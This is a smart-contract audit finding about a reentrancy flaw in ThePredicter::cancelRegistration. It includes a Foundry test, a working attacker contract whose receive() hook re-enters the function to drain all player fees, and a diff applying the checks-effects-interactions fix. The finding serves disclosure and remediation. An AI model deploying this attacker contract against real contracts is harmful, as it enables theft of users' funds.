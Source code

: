 # [H-1] `ThePredicter::cancelRegistration` can be reentered to drain the contract

## Summary

The CEI pattern is not followed in the `ThePredicter::cancelRegistration` function. This allows an attacker to reenter the function and withdraw the entrance fee multiple times.

## Vulnerability Details

The following code snippet demonstrates the reentrancy vulnerability in the `ThePredicter::cancelRegistration` function.
Paste the following proof of code into the `ThePredicter.test.sol` file:

Test:

```javascript
function testReenterCancelRegistration() public playersRegistered {
        ReentrancyPlayer attacker = new ReentrancyPlayer(thePredicter);
        vm.deal(address(attacker), thePredicter.entranceFee());
        // Register and reenter cancelRegistration
        attacker.registerAndCancel();
        assertEq(address(thePredicter).balance, 0);
        // The ReentrancyPlayer should have the entrance fee of all four players
        assertEq(address(attacker).balance, 4*thePredicter.entranceFee());
    }
```

Attacker contract:

```javascript
contract ReentrancyPlayer {
    ThePredicter public thePredicter;

    constructor(ThePredicter _thePredicter) {
        thePredicter = _thePredicter;
    }

    function registerAndCancel() public {
        thePredicter.register{value: 0.04 ether}();
        thePredicter.cancelRegistration();
    }

    receive() external payable {
        if (address(thePredicter).balance >= thePredicter.entranceFee()) {
            thePredicter.cancelRegistration();
        }
    }
}
```

## Impact

An attacker can drain all funds from the contract including the entrance and prediction fees.

## Tools Used

Manual review

## Recommendations

Follow the CEI pattern in the `ThePredicter::cancelRegistration` function to prevent reentrancy attacks.
To do so move the state change to the beginning of the function before the external call.

```diff
    function cancelRegistration() public {
        if (playersStatus[msg.sender] == Status.Pending) {
+           playersStatus[msg.sender] = Status.Canceled;
            (bool success, ) = msg.sender.call{value: entranceFee}("");
            require(success, "Failed to withdraw");
-           playersStatus[msg.sender] = Status.Canceled;
            return;
        }
        revert ThePredicter__NotEligibleForWithdraw();
    }
```
